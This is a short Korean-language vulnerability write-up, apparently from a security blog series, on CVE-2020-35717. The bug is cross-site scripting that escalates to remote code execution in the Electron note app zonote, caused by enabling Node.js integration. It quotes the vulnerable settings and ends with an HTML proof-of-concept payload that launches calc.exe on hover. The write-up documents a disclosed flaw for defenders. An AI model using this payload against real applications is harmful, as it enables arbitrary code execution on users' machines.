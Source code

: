 ```yaml
---

title: "[하루한줄] CVE-2020-35717: RCE through XSS"
author: Fabu1ous

tags: [Fabu1ous, cve, rce, xss]

categories: [1day1line]

date: 2021-01-06 18:00:00

cc: true

index_img: /img/1day1line.png
---
```




## URL

[zonote RCE through XSS](https://medium.com/bugbountywriteup/remote-code-execution-through-cross-site-scripting-in-electron-f3b891ad637)



## Target

zonote <= 0.4.0



## Explain

문서 작성 Electron App인 zonote에서 발생하는 RCE 취약점이 공개되었습니다. zonote 문서에 마크다운과 html을 삽입해 XSS(Cross-Site-Script) 공격을 할 수 있는데 악용 범위를 RCE까지 확장할 수 있습니다. 

> It is paramount that you do not enable Node.js integration in any renderer (`BrowserWindow`, `BrowserView`, or `<webview>`) that loads remote content.

[Electron의 공식문서](https://www.electronjs.org/docs/tutorial/security#2-do-not-enable-nodejs-integration-for-remote-content)에 따르면 원격 콘텐츠에 접근하는 모든 renderer는 Node.js intergration이 비활성화되어있어야 합니다. XSS 취약점이 존재해도 그 악용 범위를 renderer 내부로 제한하기 위함이고 Electron 5.0.0부터 권장해온 기본 설정입니다. 

* 다음은 zonote의 main.js코드 일부입니다.

```js
const browserWindowsOptions = {
    ...
    webPreference: {
        nodeIntergration : true,
        enableRemoteModule : true
    }
}
```

Node.js intergration이 활성화되어있으므로 XSS를 통한 RCE 취약점이 존재합니다.

* PoC

```markdown
<a onemouseover="
try{
	const {shell} = require('electron');
	shell.openExternal('file:C:/Windows/System32/calc.exe')
}catch(e){
	console.error(e)
}">Hover Me</a>
```



